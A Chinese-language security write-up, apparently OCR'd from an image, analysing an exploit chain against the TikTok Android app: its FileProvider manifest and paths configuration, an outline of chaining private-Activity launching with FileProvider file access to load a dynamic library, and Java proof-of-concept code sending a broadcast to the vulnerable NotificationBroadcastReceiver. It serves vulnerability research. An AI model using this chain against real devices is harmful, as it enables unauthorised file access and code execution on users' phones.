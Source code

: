 高版本的安卓系统需要如下使用FileProvider，这里可以看到被设置为不导出
```
<provider 
    android:authorities="com.zhiliaoapp.musically.fileprovider" 
    android:exported="false" 
    android:grantUriPermissions="true" 
    android:name="android.support.v4.content.FileProvider">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/c"/>
</provider>
```

对应的配置文件
```
<?xml version="1.0" encoding="UTF-8"?>
<paths xmlns:android="http://schemas.android.com/apk/res/android">
    <root-path name="name" path=""/>
    <external-path name="share_path0" path="share/"/>
    <external-path name="download_path2" path="Download/"/>
    <cache-path name="gif" path="gif/"/>
    <external-files-path name="share_path1" path="share/"/>
    <external-files-path name="install_path" path="update/"/>
    <external-files-path name="livewallpaper" path="livewallpaper/"/>
    <external-cache-path name="share_image_path0" path="picture/"/>
    <external-cache-path name="share_image_path2" path="head/"/>
    <external-cache-path name="share_image_path3" path="feedback/"/>
    <external-cache-path name="share_image_path4" path="tmpimages/"/>
    <cache-path name="share_image_path1" path="picture/"/>
    <cache-path name="share_image_path3" path="head/"/>
    <cache-path name="share_image_path4" path="tmpimages/"/>
    <cache-path name="share_sdk_path_0" path="share_content_cache/"/>
</paths>
```

这里的利用值得学习，先拥有一个任意私有Activity组件打开的能力，去结合FileProvider获取文件读写的能力，再去实现动态库加载

首先是给漏洞组件`com.ss.android.ugc.awemepushlib.os.receiver.NotificationBroadcastReceiver`发送广播
```
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        handleIntent(getIntent());
    }

    private void handleIntent(Intent i) {
        Intent intent = new Intent("notification_clicked");
        intent.setClassName("com.zhiliaoapp.musically", "com.ss.android.ugc.awemepushlib.os.receiver.NotificationBroadcastReceiver");
        sendBroadcast(intent);
    }
}
```
